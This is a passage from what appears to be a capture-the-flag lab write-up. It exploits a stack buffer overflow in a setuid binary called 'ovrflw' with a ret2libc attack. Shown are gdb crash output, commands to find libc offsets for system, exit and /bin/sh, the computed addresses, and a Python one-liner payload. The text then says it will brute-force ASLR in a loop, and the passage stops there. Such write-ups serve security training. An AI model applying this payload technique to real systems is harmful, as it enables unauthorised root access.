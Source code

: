 
I can show this works by running:

    
    
    gdb-peda$ run `python -c 'print "A"*112 + "BBBB"'`
    

That will input 112 As, and then 4 Bs. It crashes:

    
    
    Stopped reason: SIGSEGV
    0x42424242 in ?? ()
    

The address is 0x42424242, which is BBBB.

### ovrflw Ret to libc

I’ll find an address of libc:

    
    
    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f8000)
    

And I can get offsets for system, exit, and bin/sh:

    
    
    www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
       139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
      1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
    www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/" 
     162bac /bin/sh
     164b10 /bin/csh
    

For this libc base (which is right 1/512 times):

    
    
    exit: 0xb75f8000+0x33260 = 0xB762B260
    system: 0xb75f8000+0x40310 = 0xB7638310
    /bin/sh: = 0xb75f8000+0x162bac = 0xB775ABAC
    

I’m going to overflow such my buffer goes [JUNK] + SYSTEM (ret address
overwrite) + EXIT (next return address) + “/bin/sh” (args).

### Exploit

If ASLR weren’t enabled, I could just do this:

    
    
    www-data@october:/dev/shm$ /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"');
    

Because ASLR is enabled, I’ll do it in a loop until I get a shell:

    